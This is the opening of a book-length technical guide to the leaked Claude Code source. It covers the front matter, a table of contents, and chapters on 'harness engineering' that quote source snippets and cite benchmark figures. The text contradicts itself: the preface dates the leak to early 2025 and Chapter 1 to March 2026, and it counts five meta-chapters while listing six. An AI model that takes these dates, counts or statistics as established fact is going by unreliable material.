# Deep Research and Development Guide of CC Source Code

Based on repository SHA `a371abbe75ffa0d0a3c92290e2bbf56a7ef54367`

## Preface

This book exists because of a convergence that few people expected. In early 2025, the full source code of Claude Code -- Anthropic's terminal-based agentic coding assistant -- was leaked to the public. Around the same time, the Harness Engineering Report (HER) was published, documenting twelve design patterns, seventeen failure modes, and twenty best practices for building long-running autonomous agent systems. For the first time, engineers could study not just the theory of harness engineering but a complete, production-grade implementation of it.

That intersection is what this book explores. Claude Code (referred to throughout as "cc") is the most mature public example of a long-running agent harness. It is not a toy demo or a research prototype; it is a shipping product that processes millions of queries, manages concurrent sub-agents, enforces multi-layered security policies, and runs for hours across complex multi-step tasks. Every design decision in its codebase -- from the five-stage compaction hierarchy that rescues context windows to the bash classifier that prevents destructive commands -- reflects hard-won experience with real failure modes.

The audience for this book is engineers building long-running agent harnesses. Whether you are extending an existing system, evaluating an architecture for production deployment, or designing a new agent from scratch, cc provides a concrete reference point. This is not a tutorial on using Claude Code as an end user. It is a deep technical analysis of how cc works internally, why it works that way, and what the implications are for the discipline of harness engineering.

The book offers three reading paths. The linear path starts at Chapter 1 and proceeds through all fifty-seven chapters in order, building from foundations through subsystems to synthesis. The subsystem-focused path jumps to the Part that covers a specific subsystem -- Part III for the tool system, Part IV for multi-agent dispatch, Part VI for safety and permissions -- and reads outward from there. The pattern-focused path starts with Part X, which maps all twelve HER patterns and seventeen failure modes to concrete cc implementations, then follows cross-references backward into the chapters that provide the detailed evidence.

Each chapter follows a consistent structure: an Overview that states the chapter's thesis, a Data structures and contracts section that covers the types and interfaces, a Control flow section that traces the code path with inline source citations, an Edge cases and failure modes section that connects the implementation to HER's framework, a Where cc diverges from the published pattern section, and a Developer takeaways for building a long-running agent section. Mermaid diagrams are embedded inline throughout these sections. Source citations use the format `src/path/file.ts:Lnnn`. Diagrams use five allowed Mermaid types: flowchart, sequenceDiagram, stateDiagram-v2, classDiagram, and erDiagram.

The existence of this book is itself evidence of a shift. Five years ago, the idea of reading a production agent's source code to learn how to build better agents would have seemed academic. Today, with METR benchmarks showing that well-engineered harnesses can double task completion rates, and with the harness engineering discipline coalescing around shared patterns and failure taxonomies, it is essential. The code is the curriculum. This book is the guided tour.

## How to Read This Book

### Citation Format

All source citations follow the format `src/path/file.ts:Lnnn`, where `Lnnn` refers to the line number in the source tree at the repository SHA listed on the title page. When a citation references a directory rather than a specific file, the path ends with a trailing slash (e.g., `src/services/mcp/`).

### Diagram Conventions

This book uses five Mermaid diagram types, each serving a distinct purpose:

- **flowchart**: Control-flow and decision logic. Directed graphs showing branching paths and conditions.
- **sequenceDiagram**: Temporal interactions between components. Shows message passing, return values, and lifeline activation.
- **stateDiagram-v2**: State machines and lifecycle transitions. Shows valid states, transition triggers, and terminal states.
- **classDiagram**: Type hierarchies and interface contracts. Shows fields, methods, inheritance, and composition.
- **erDiagram**: Entity-relationship mappings. Shows how records, files, and data structures relate to each other.

### Chapter Structure

Every chapter contains six mandatory sections:

1. **Overview** -- The chapter's thesis and scope.
2. **Data structures and contracts** -- The types, interfaces, and schemas that define the subsystem's contract surface.
3. **Control flow** -- The main body, tracing code paths with inline citations.
4. **Edge cases and failure modes** -- Corner cases, race conditions, and references to HER failure modes.
5. **Where cc diverges from the published pattern** -- How cc's implementation differs from HER's prescribed patterns.
6. **Developer takeaways for building a long-running agent** -- Distilled findings and implications for harness builders.

Mermaid diagrams (flowchart, sequenceDiagram, stateDiagram-v2, classDiagram, erDiagram) are embedded inline throughout these sections rather than isolated in a separate section.

### Cross-Reference Notation

References to other chapters use the format "Chapter N" or "Part X". References to HER sections use the format "HER section N" or the section symbol (e.g., "section 5 Pattern 6"). When a chapter references a specific code snippet shown in another chapter, it includes the snippet checksum for verification.

## Table of Contents

- **Part I. Foundations and Framing**
  - Chapter 1. Why This Book Exists: The Harness Engineering Moment
  - Chapter 2. Book Architecture, Reading Paths, and Citation Conventions
  - Chapter 3. A Guided Tour of the Repository
  - Chapter 4. TypeScript, Bun, React, Ink: The Unusual Runtime Stack

- **Part II. Entry, Bootstrap, and the Runtime Spine**
  - Chapter 5. Bootstrap: From `bun run` to Running Loop
  - Chapter 6. `main.tsx` and the Command Router
  - Chapter 7. The Query Loop: Heartbeat of the Agent
  - Chapter 8. Talking to Anthropic: `services/api/claude.ts` and Streaming
  - Chapter 9. System Prompts and Prompt Assembly
  - Chapter 10. Token Budgets, Effort, and Fast Mode

- **Part III. The Tool System**
  - Chapter 11. Anatomy of a Tool: `Tool.ts`, `buildTool`, and the Base Type
  - Chapter 12. Tool Dispatch Pipeline
  - Chapter 13. File System Tools: Read, Write, Edit, Glob, Grep, Notebook
  - Chapter 14. The Bash Tool, Classifiers, and Sandboxing
  - Chapter 15. Search, LSP, and Code Analysis Tools
  - Chapter 16. Web Tools: `WebFetch`, `WebSearch`, and SSRF Defense
  - Chapter 17. TodoWrite, AskUserQuestion, Brief, Config, SendMessage

- **Part IV. Sub-Agents, Tasks, and Multi-Agent Dispatch**
  - Chapter 18. The Agent Tool: Entry, Inputs, and Lifecycle
  - Chapter 19. Sync vs Fork vs Remote: The Execution Modes
  - Chapter 20. Agent Definitions: Loading, Frontmatter, and Built-Ins
  - Chapter 21. Multi-Agent Coordinator: The Swarm Layer
  - Chapter 22. Tasks: A Durable Unit of Work
  - Chapter 23. Teammates and In-Process Collaboration
  - Chapter 24. Dream Tasks: Background Consolidation

- **Part V. Context, Memory, and State**
  - Chapter 25. Messages and the Conversation Model
  - Chapter 26. Memdir: Tiered Memory on Disk
  - Chapter 27. Session Memory and Memory Extraction
  - Chapter 28. Compaction Hierarchy: Five Stages of Context Rescue
  - Chapter 29. Session Persistence and Resume
  - Chapter 30. AppState: The Redux-like Store
  - Chapter 31. CLAUDE.md, Settings Cascade, and Managed Settings

- **Part VI. Safety, Permissions, and Hooks**
  - Chapter 32. The Permission Model: Modes and Rules
  - Chapter 33. Bash Classifier and YOLO Scoring
  - Chapter 34. Filesystem Permissions and Path Guards
  - Chapter 35. `useCanUseTool`: The Engine Hook
  - Chapter 36. The Hook Schema and Lifecycle Events
  - Chapter 37. Hook Execution: Command, Prompt, HTTP, Agent, Function

- **Part VII. Interaction Surfaces: Skills, Slash, MCP, UX**
  - Chapter 38. Skills: Discovery, Frontmatter, Progressive Disclosure
  - Chapter 39. Slash Commands: 90+ Commands and the Registry
  - Chapter 40. MCP: Clients, Transports, and Lifecycle
  - Chapter 41. MCP Tools: Passthrough Permissions and Deferred Loading
  - Chapter 42. The Ink Renderer and Terminal Engine
  - Chapter 43. REPL, PromptInput, Typeahead, Voice, Keybindings
  - Chapter 44. Bridges: VS Code, JetBrains, and Web

- **Part VIII. Long-Running Work**
  - Chapter 45. Plan Mode V2: The Five-Phase Model
  - Chapter 46. Worktrees: Isolated Parallel Branches
  - Chapter 47. Cron, Schedule, Loop, and Wakeup
  - Chapter 48. Remote Agents and CCR Integration
  - Chapter 49. KAIROS Assistant, Buddy, and Experimental Layers

- **Part IX. Observability, Cost, and Security**
  - Chapter 50. Analytics, Cost Tracking, and GrowthBook
  - Chapter 51. Debug Logs, Diagnostics, and Doctor
  - Chapter 52. Threat Model: CC Through the Lens of HER Section 12

- **Part X. Synthesis and Future Development**
  - Chapter 53. The 12 HER Patterns Mapped to CC
  - Chapter 54. The 17 Failure Modes: How CC Defends (or Doesn't)
  - Chapter 55. Reference Architecture: Building a Trustworthy Long-Running Agent
  - Chapter 56. What To Build Next: An Opinionated Roadmap
  - Chapter 57. Closing: Lessons for the Harness Engineering Discipline

- **Appendix A. Glossary of Terms**
- **Appendix B. Bibliography and Further Reading**
- **Appendix C. Cross-Reference Concordance**
- **Appendix D. Tool Reference Table**
- **Appendix E. System Prompt Section Catalog**
- **Appendix F. Feature Flag Reference**
- **Appendix G. Hook Event Reference**
- **Appendix H. Environment Variables**
- **Appendix I. Minimal Harness Starter Skeleton**
# Part I. Foundations and Framing

This opening part establishes the intellectual framework for everything that follows. Before diving into source code, we need to answer three questions: why does this book exist, how should you read it, and what are you looking at?

The theme of Part I is orientation. These four chapters are not about any single subsystem of cc; they are about positioning cc within the emerging discipline of harness engineering, giving you the conceptual tools to navigate the remaining fifty-three chapters, and mapping the repository so that every subsequent chapter has a place in your mental model.

These chapters are grouped together because they form the prerequisites for all later analysis. Without understanding why this book exists and what harness engineering is, the detailed walkthroughs in later parts lose their motivation. Without understanding the citation conventions and reading paths, you cannot efficiently navigate the evidence. Without a map of the repository, every file path is an opaque string rather than a known location. Without understanding the runtime stack, every design decision seems arbitrary rather than constrained.

Chapter 1 states the book's thesis -- that cc is the most mature public example of a long-running agent harness and a template for trustworthy autonomous systems. It positions cc in the context of the Harness Engineering Report (HER), the METR benchmarks that quantify the value of well-engineered harnesses, and the broader shift from prompt engineering to harness engineering as the discipline for building reliable autonomous systems. This chapter answers the "why" question: why should you invest time in studying a production codebase rather than reading research papers or building from scratch.

Chapter 2 explains the book's architecture, reading paths, and the citation conventions you will encounter throughout. It describes the three reading paths available -- linear, subsystem-focused, and pattern-focused -- and provides the cross-reference table that maps HER patterns and failure modes to the chapters that cover them. It also establishes the diagram conventions (the five allowed Mermaid types), the chapter structure (the six mandatory sections), and the citation format used throughout the book.

Chapter 3 maps the top-level directory tree of the cc repository. For each major folder it answers three questions: what lives here, why is it organized this way, and what are its connections to neighboring folders. This chapter provides the reader's orientation map before the deep dives begin, and connects the physical layout of the codebase to HER's eight-layer reference architecture.

Chapter 4 examines the unusual runtime stack of TypeScript, Bun, React, and Ink. It explains why cc chose this combination -- TypeScript for type safety and ecosystem breadth, Bun for startup speed and bundling, React for structured terminal UI via the Ink framework, and feature-flagged bundling for distributability. It also covers the tradeoffs this stack introduces, including startup time considerations, the React-for-terminal-UI paradigm, and how this connects to HER's thesis that harnesses are language and runtime specific.

By the end of this Part, you should have a clear understanding of the harness engineering moment that motivates this book, the conventions that govern how the book presents evidence, the physical layout of the cc repository, and the runtime architecture that shapes every subsequent design decision. You should also have a sense of which reading path suits your needs -- linear, subsystem-focused, or pattern-focused -- and be ready to begin the deep technical walkthroughs starting in Part II.

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Why This Book Exists: The Harness Engineering Moment

## Overview

In March 2026, the entire source code of Claude Code (cc), Anthropic's flagship AI coding CLI, was discovered sitting in plain sight on the npm registry via an unstripped sourcemap file. Chaofan Shou (@Fried_rice) identified the leak, which revealed something the AI engineering community had been sensing but could not yet name with precision: a 785KB `main.tsx` entry point, a custom React terminal renderer, 40+ tools, multi-agent orchestration, tiered memory, and a five-layer defense-in-depth security model. This was not a thin wrapper around a model API. It was a full *harness* -- the outer runtime layer that orchestrates the model's interactions with tools, permissions, hooks, memory, and the user.

This book exists because that harness, and the discipline it represents, matters more than most practitioners realize. The same model that ranks #1 in one harness ranks #40 in another -- a 24.9 percentage point spread that proves harness design is the dominant variable in production agent reliability (HER section 17, TerminalBench 2.0, tbench.ai, April 2026). cc is the most mature public example of a long-running agent harness. Understanding it deeply is the fastest path to understanding the emerging discipline of harness engineering itself.

The thesis of this book is twofold: first, that cc is the most complete existing instantiation of the harness engineering discipline; second, that studying its architecture -- every tradeoff, every divergence from published patterns, every defensive mechanism -- provides a concrete template for building trustworthy autonomous systems.

The book you are reading is organized into 57 chapters across 10 parts, moving from foundations through the runtime spine, tool system, sub-agents, context and memory, safety, interaction surfaces, long-running work, observability, and synthesis. Each technical chapter cites specific source files with line-number precision. Each maps cc's implementation to the published patterns and failure modes from the Harness Engineering Report (HER). The goal is not merely to describe what cc does but to extract the architectural principles that make it work -- and to identify where it does not work, so that the next generation of harnesses can do better.

## Data structures and contracts

The conceptual equation at the heart of harness engineering is:

```
Agent = Model + Harness
```

Popularized by Mitchell Hashimoto (co-founder of HashiCorp) in February 2026, this equation captures the insight that the harness encompasses "every piece of code, configuration, and execution logic that isn't the model itself" (HER section 1). The model provides intelligence; the harness makes that intelligence useful. The analogy is deliberate: a horse possesses strength but requires a harness to direct that power toward useful work.

Hashimoto's core principle, stated in his article "My AI Adoption Journey" (mitchellh.com, February 5, 2026), is: "Anytime you find an agent makes a mistake, you take the time to engineer a solution such that the agent never makes that mistake again." This principle is recursive: each mistake drives a new harness component, and the harness grows by accumulating defenses. cc's 4,683-line `main.tsx` is the accumulated result of hundreds of such iterations.

This equation is a pedagogical simplification. In practice, the harness itself contains model calls -- evaluator agents, summarization agents, routing classifiers -- making the relationship recursive rather than a clean sum. The equation's value is in establishing that the harness is at least as important as the model, not in providing a formal decomposition.

The cc codebase embodies this contract. Its entry point, `src/entrypoints/cli.tsx`, demonstrates the principle immediately: before any model call happens, the harness performs environment detection, feature gating, and fast-path routing:

```typescript
// src/entrypoints/cli.tsx:L33-L42
async function main(): Promise<void> {
  const args = process.argv.slice(2);

  // Fast-path for --version/-v: zero module loading needed
  if (args.length === 1 && (args[0] === '--version' || args[0] === '-v' || args[0] === '-V')) {
    // MACRO.VERSION is inlined at build time
    // biome-ignore lint/suspicious/noConsole:: intentional console output
    console.log(`${MACRO.VERSION} (Claude Code)`);
    return;
  }
```

The harness decides whether the model is even needed. The `--version` flag returns immediately with zero imports. This is not an afterthought -- it is the first architectural decision in the codebase: the harness owns the control flow, and the model is invoked only when the harness determines it is necessary. The rest of `src/entrypoints/cli.tsx:L108-L162` continues this pattern: bridge mode, daemon mode, background sessions, template jobs, and environment runners all bypass the model entirely, routing to specialized handlers instead. Only when no fast-path matches does the harness load the full `src/main.tsx` and prepare for model interaction.

The harness also controls environment variables that shape model behavior before any model is loaded:

```typescript
// src/entrypoints/cli.tsx:L16-L26
// Harness-science L0 ablation baseline. Inlined here (not init.ts) because
// BashTool/AgentTool/PowerShellTool capture DISABLE_BACKGROUND_TASKS into
// module-level consts at import time — init() runs too late. feature() gate
// DCEs this entire block from external builds.
if (feature('ABLATION_BASELINE') && process.env.CLAUDE_CODE_ABLATION_BASELINE) {
  for (const k of [
    'CLAUDE_CODE_SIMPLE',
    'CLAUDE_CODE_DISABLE_THINKING',
```

This ablation baseline code sets environment variables that disable thinking, compaction, auto-compact, auto-memory, and background tasks -- all before any tool or model is loaded. The harness is not just a wrapper around the model; it is the environment in which the model operates, and it shapes that environment deliberately.

## Control flow

The evolution from prompt engineering to context engineering to harness engineering is not a sequence of replacements but a nesting of scopes (HER section 2). Prompts tell the model *what to do*. Context gives the model *what to know*. Harnesses give the model *where to work*. Each layer adds scope without eliminating the previous.

```mermaid
flowchart TD
    A[Prompt Engineering<br/>~2020-2021<br/>"Talking to the AI"] --> B[Context Engineering<br/>~2023-2024<br/>"Feeding the AI"]
    B --> C[Harness Engineering<br/>~2025-2026<br/>"Housing the AI"]
    C --> D[Model API]
    C --> E[Tool Dispatch]
    C --> F[Permission System]
    C --> G[Memory & Compaction]
    C --> H[Multi-Agent Orchestration]
    D --> I[Agent = Model + Harness]
    E --> I
    F --> I
    G --> I
    H --> I
```

The HER identifies this evolution as nested layers, not sequential eras (HER section 2). Harness engineering encompasses context engineering, which encompasses prompt engineering. Each layer adds scope without eliminating the previous. The "emergence" dates indicate when each practice became a recognized discipline with its own terminology and community, not when the underlying techniques first appeared. Prompt engineering techniques predate GPT-3; workflow orchestration tools (LangChain, AutoGPT) predate the "harness engineering" label; RAG systems were active before "context engineering" became a term.

The DevOps lineage is important. Muhammad Raza argues that harness engineering maps directly to existing DevOps practices: execution environments equal CI runners, tool definitions equal API design, control loops equal health checks, guardrails equal IAM policies. The discipline is arguably DevOps applied to a new workload type, not an entirely novel field. cc's architecture supports this reading: its startup profiler (`src/utils/startupProfiler.js`), its analytics sinks (`src/services/analytics/index.ts:L1`), its policy limits (`src/services/policyLimits/index.js`), and its managed settings (`src/services/remoteManagedSettings/index.js`) all have direct analogs in traditional DevOps infrastructure.

The cc codebase makes this nesting concrete. `src/main.tsx` imports over 60 modules before the first model call ever fires. These imports establish the harness: settings, permissions, analytics, feature flags, tools, and the React/Ink terminal renderer. The model is the last thing initialized, not the first:

```typescript
// src/main.tsx:L9-L20
// These side-effects must run before all other imports:
// 1. profileCheckpoint marks entry before heavy module evaluation begins
// 2. startMdmRawRead fires MDM subprocesses (plutil/reg query) so they run in
//    parallel with the remaining ~135ms of imports below
// 3. startKeychainPrefetch fires both macOS keychain reads (OAuth + legacy API
//    key) in parallel — isRemoteManagedSettingsEligible() otherwise reads them
//    sequentially via sync spawn inside applySafeConfigEnvironmentVariables()
//    (~65ms on every macOS startup)
import { profileCheckpoint, profileReport } from './utils/startupProfiler.js';

// eslint-disable-next-line custom-rules/no-top-level-side-effects
profileCheckpoint('main_tsx_entry');
import { startMdmRawRead } from './utils/settings/mdm/rawRead.js';

// eslint-disable-next-line custom-rules/no-top-level-side-effects
startMdmRawRead();
```

The startup sequence explicitly prioritizes harness-side work: profiling checkpoints, MDM prefetch, keychain prefetch. The model is not even loaded at this point. The harness must be fully erected before the model is invited in.

The TerminalBench 2.0 evidence makes the practical consequences of this architecture stark. The same model (Claude Opus 4.6) ranks #1 in one harness (Pilot/QuantFlow, 82.9% accuracy) but #40 in another (Claude Code/Anthropic, 58.0%) -- a 24.9 percentage point spread across 124 leaderboard entries (HER section 17). On SWE-bench Verified, Augment Code, Cursor, and Claude Code all ran the same model (Opus 4.5) but scored 17 problems apart (out of 731 total). Same model, different harness, different results.



The task-duration capability of AI agents is doubling approximately every seven months, with recent evidence suggesting acceleration to roughly 4.3 months (METR, March 2025). This trajectory means that tasks which were impossible for autonomous agents in 2024 became routine in 2025, and tasks that require human supervision today will likely be within agent reach within a year. As task duration grows, the harness becomes proportionally more important: a model that can run for six hours instead of twenty minutes encounters context rot, cost explosion, checkpoint-restore side effects, and silent failures on a scale that no amount of prompt engineering can address. The harness is the only layer that scales with task duration.


The verified metrics from HER section 17 provide additional quantitative evidence. A solo agent costs $9 for 20 minutes and produces broken results; a harness-wrapped agent costs $200 for 6 hours and produces working results (Anthropic/Rajasekaran). The Meta-Harness approach yields +7.7 points SOTA with 4x fewer tokens (arXiv:2603.28052). A smaller model with a harness outperforms a larger model without one (AutoHarness, arXiv:2603.03329). Observation masking delivers a 52% cost reduction (JetBrains Research). These are not marginal improvements; they are order-of-magnitude differences that the harness makes possible.

The compound failure math is equally stark: 95% per-step reliability yields only 36% reliability over 20 steps (HER section 17). A long-running agent that performs 100 tool calls must have per-call reliability above 99.6% to achieve even 67% end-to-end reliability. The harness exists to close this gap -- not by making each call marginally better, but by providing structural guarantees (permission checks, result validation, error recovery) that compound positively rather than negatively.

## Edge cases and failure modes

The harness engineering discipline emerged from failure, not success. HER section 6 catalogues 17 failure modes that recur across all production agent systems. The most operationally critical for multi-hour tasks include:

**Context Rot** (HER section 6.1): Performance degrades 30%+ when key content falls in mid-window positions. The agent re-solves problems, contradicts itself, loses track of goals. cc's answer is a five-stage compaction hierarchy (Chapter 28) that progressively rescues context from token overflow.

**Cost Explosion** (HER section 6.11): Agents in infinite loops or multi-agent chains rack up hundreds or thousands of dollars. Enterprise budgets underestimate AI agent TCO by 40-60%. cc's answer includes real-time token metering, per-session cost caps, and a token budget system (Chapter 10). For multi-hour tasks, this is arguably the number one operational risk.

**Checkpoint-Restore Side Effects** (HER section 6.16): LLM agents re-synthesize subtly different requests after restore, causing duplicate payments, unauthorized credential reuse, and irreversible side effects. The ACRFence paper (arXiv:2603.20625) identifies two attack classes specific to agent checkpoint-restore. cc's answer involves recording irreversible tool effects and enforcing replay-or-fork semantics.

**Prompt Injection** (HER section 6.13): Malicious content in files, tool outputs, or user inputs manipulates agent behavior. 73% of production AI deployments were affected by indirect prompt injection in 2025. cc's five-layer defense-in-depth addresses this at prompt level, schema level, runtime approval, tool-level validation, and lifecycle hooks (Chapter 52).

**Silent Failures** (HER section 6.6): The agent proceeds after tool errors as if successful. cc's tool dispatch pipeline includes mandatory result normalization and PostToolUse hooks that make silent failures structurally difficult (Chapter 12).

The honest failure data balances the success stories. Devin's PR merge rate is 67% -- meaning 33% still fail. Quality is the number one blocker for agent production use, cited by 32% of respondents in the LangChain survey. Adding a verifier can hurt performance by -0.8% on SWE-bench (NLAH paper, arXiv:2603.25723v1). Context files generally hurt performance while increasing cost by 20% (ETH Zurich, arXiv:2602.11988). Multi-candidate search can hurt by -2.4% on SWE-bench (NLAH paper). Enterprise budgets underestimate agent TCO by 40-60% (CIO research). These are not theoretical concerns; they are measured production failures that the harness must defend against.

The OpenClaw incident (HER section 12.5) is a cautionary real-world case: 135,000 GitHub stars and 21,000 exposed instances when CVE-2025-53773 (CVSS 9.6) was discovered. The vulnerability allowed remote code execution through the agent's tool interface. This demonstrates that agent security is not theoretical -- it is an active, high-severity concern that the harness must address structurally.

## Where cc diverges from the published pattern

The published harness engineering literature, particularly Martin Fowler's taxonomy (HER section 4), presents guides (feedforward controls) and sensors (feedback controls) as the two primary control mechanisms. cc implements both but diverges in a critical way: it adds a third category that the literature does not name -- *structural controls*. These are not instructions (guides) or observations (sensors) but architectural constraints that make certain failure modes structurally impossible.

For example, cc's permission system does not merely advise against destructive operations; it structurally prevents them through a pipeline of classifiers, mode validators, and human-in-the-loop approval gates (Chapter 32). The tool dispatch pipeline does not merely detect tool errors; it structurally prevents silent failures through mandatory result normalization and PostToolUse hooks (Chapter 12). The compaction hierarchy does not merely suggest context management; it structurally enforces it through token budgets that trigger automatically when thresholds are exceeded (Chapter 28).

Fowler's insight that "building this outer harness is emerging as an ongoing engineering practice, not a one-time configuration" (HER section 4.6) is correct but incomplete. cc demonstrates that the harness is also an *architectural* practice -- the structure of the codebase itself is the most powerful defense, not the configuration layered on top of it.

The HER also notes Fowler's concept of "harnessability" -- the degree to which a codebase supports harness implementation. Factors that improve harnessability include strongly typed languages, clear module boundaries, and conventional frameworks. cc's choice of TypeScript, its consistent tool subdirectory contract, and its React component model all serve harnessability. But Fowler's caveat is equally important: "Legacy systems with technical debt face particular challenges: harnesses are most necessary where hardest to build." cc is not a legacy system, but as it accumulates features (the 4,683-line `main.tsx`, the 5,512-line `src/utils/messages.ts`), it edges toward the same problem.

Ashby's Law, as cited by Fowler (HER section 4.6), states that "a regulator must have at least as much variety as the system it governs." cc's 40+ tools, six permission modes, five compaction stages, and 25+ lifecycle hook points can be read as an attempt to match the variety of the system it regulates -- a coding agent operating on arbitrary repositories with arbitrary tool requirements. The question is whether this variety is sufficient, or whether the harness will always be playing catch-up to the model's capabilities.

The `README.md:L46-L47` of the repository notes that cc is "not a simple CLI" but "a massive 785KB `main.tsx` entry point featuring a custom React terminal renderer (Ink), 40+ tools, and complex multi-agent orchestration." This description, written for a general audience, captures the essential insight: the harness is not thin. It is the bulk of the system. The model is the intelligence; the harness is the infrastructure that makes that intelligence reliable.

The cc startup sequence, documented across `src/entrypoints/cli.tsx:L286-L298` and `src/main.tsx:L9-L20`, follows a strict ordering: environment setup, feature gating, config loading, permission initialization, tool registration, and only then model engagement. This ordering is not arbitrary. Each step depends on the previous one: permissions cannot be initialized before configs are loaded, tools cannot be registered before permissions are initialized, and the model cannot be engaged before tools are available. The harness builds upward from the runtime toward the model, and each layer provides the guarantees that the next layer depends on.

The final step of the cli.tsx fast-path routing demonstrates this escalation explicitly:

```typescript
// src/entrypoints/cli.tsx:L288-L298
  // No special flags detected, load and run the full CLI
  const {
    startCapturingEarlyInput
  } = await import('../utils/earlyInput.js');
  startCapturingEarlyInput();
  profileCheckpoint('cli_before_main_import');
  const {
    main: cliMain
  } = await import('../main.js');
  profileCheckpoint('cli_after_main_import');
  await cliMain();
  profileCheckpoint('cli_after_main_complete');
```

Only when no fast-path matches does the harness load `src/main.js` via dynamic import. The `startCapturingEarlyInput()` call begins buffering user keystrokes before the full CLI is loaded, so that no input is lost during the startup delay. The `profileCheckpoint()` calls bracket the expensive import, giving the startup profiler precise timing data. Every line serves the harness, not the model.

## Developer takeaways for building a long-running agent

The single most important architectural decision in the cc codebase is that the harness owns the control flow: the model is a guest, not the host. cc's `cli.tsx` decides whether the model is even needed before loading it, and this inversion of control sets the tone for everything that follows. The TerminalBench 2.0 data (presented in the Control flow section above) confirms why this matters: harness design is the dominant variable for production reliability, not model selection.

Harness engineering is a nested discipline, not a sequential one: it encompasses context engineering, which in turn encompasses prompt engineering, and building a production harness requires mastery of all three layers. Within those layers, structural controls consistently outperform advisory ones. cc's permission system, tool dispatch pipeline, and compaction hierarchy make failure modes structurally impossible rather than merely discouraged, and this is a more reliable defense than any amount of prompt engineering can provide. The compound failure math makes this point quantitatively: 95% per-step reliability yields only 36% over 20 steps, so the harness must turn per-call reliability into end-to-end reliability through structural guarantees that compound positively.

The failure data is as important as the success data. The honest failure metrics -- 33% of Devin PRs still failing, verifiers hurting by -0.8%, context files increasing cost by 20% -- define the problem space the harness must solve. A harness designed only from success stories will fail in production. Finally, practitioners with DevOps experience can transfer those skills directly: cc's startup profiler, analytics sinks, policy limits, and managed settings all have direct analogs in traditional DevOps infrastructure, and Fowler's principle that the harness is an ongoing engineering practice means it must be designed for modification from the start.
# Book Architecture, Reading Paths, and Citation Conventions

## Overview

This book contains 57 chapters organized across 10 parts. It is designed to be read both linearly and non-linearly, depending on the reader's goals. A developer building a harness from scratch will benefit from a sequential read. A developer debugging a specific failure mode can jump directly to the relevant chapter and follow cross-references. This chapter explains the book's architecture, the citation format used throughout, the diagram conventions, and the cross-reference table that maps patterns, failure modes, and best practices from the Harness Engineering Report (HER) to specific chapters.

This is a meta-chapter. Unlike the technical chapters that follow, it does not cite source files from the cc codebase. Its purpose is to orient the reader before the deep dives begin. The five meta-chapters in this book (this one, plus Chapters 53, 54, 55, 56, and 57) serve a structural role: they map between the theoretical framework of the HER and the concrete implementation details in the remaining 52 technical chapters. The meta-chapters are the connective tissue that turns a collection of deep dives into a coherent argument. Reading this chapter first ensures that the terminology, cross-reference conventions, and structural expectations are clear before the technical content begins.

## Data structures and contracts

The book is organized into ten parts, each addressing a coherent subsystem of the cc harness:

| Part | Title | Chapters | Focus |
|------|-------|----------|-------|
| 1 | Foundations and Framing | 1-4 | Why the book exists, how to read it, repository tour, runtime stack |
| 2 | Entry, Bootstrap, and the Runtime Spine | 5-10 | Startup, command routing, query loop, API layer, prompts, token budgets |
| 3 | The Tool System | 11-17 | Tool contract, dispatch pipeline, file tools, bash tool, search/LSP, web tools, meta tools |
| 4 | Subagents, Tasks, and Multi-Agent Dispatch | 18-24 | Agent tool, execution modes, agent definitions, coordinator, tasks, teammates, dream tasks |
| 5 | Context, Memory, and State | 25-31 | Messages, memdir, session memory, compaction, session persistence, app state, settings cascade |
| 6 | Safety, Permissions, and Hooks | 32-37 | Permission modes, bash classifier, filesystem permissions, canUseTool hook, hook schema, hook execution |
| 7 | Interaction Surfaces | 38-44 | Skills, slash commands, MCP, MCP tools, Ink renderer, REPL, bridges |
| 8 | Long-Running Work | 45-49 | Plan mode, worktrees, cron/schedule/loop, remote agents, KAIROS/buddy |
| 9 | Observability, Cost, and Security | 50-52 | Analytics, debug/diagnostics, threat model |
| 10 | Synthesis and Future Development | 53-57 | HER patterns mapped to cc, failure modes mapped to cc, reference architecture, roadmap, closing |

The citation format used throughout this book is:

- File citations: `src/path/to/file.ts:Lnnn` for a single line, `src/path/to/file.ts:Lnnn-Lmmm` for a range. These citations are precise: they reference the exact lines in the codebase where the cited behavior is implemented. If the codebase is updated, the citations may drift, and the claims should be re-verified against the current source.
- HER cross-references: `HER section N` or `HER section N.K` for specific subsections. These reference the Harness Engineering Report from which the theoretical framework is drawn.
- All citations appear inline in backticks.

Every technical chapter must contain at least 6 unique file citations, at least 2 mermaid diagrams, and at least 4 quoted code snippets from the listed source files. The quoted code snippets use a strict format: the first line inside the fence must be a comment with the exact source path and line range plus a short caption. This format enables automated verification that the snippets match the source.

The diagram conventions are strict. Only five mermaid diagram types are used:

- `flowchart` for decision trees and data flow
- `sequenceDiagram` for temporal interactions between components
- `stateDiagram-v2` for state machines and lifecycle transitions
- `classDiagram` for type hierarchies and interface contracts
- `erDiagram` for storage schemas and entity relationships

This restriction ensures that diagrams render consistently across tools and that readers can predict the information density of each diagram type. No other diagram types are used, and any chapter that includes a non-conforming diagram will be flagged by the Polish Auditor and corrected by the Reviser before passing audit.

The section structure within each technical chapter is also fixed. Every technical chapter must include these sections in this exact order:

1. **Overview** -- a narrative introduction that states the chapter's thesis
2. **Data structures and contracts** -- types, interfaces, schemas, with at least one quoted code snippet
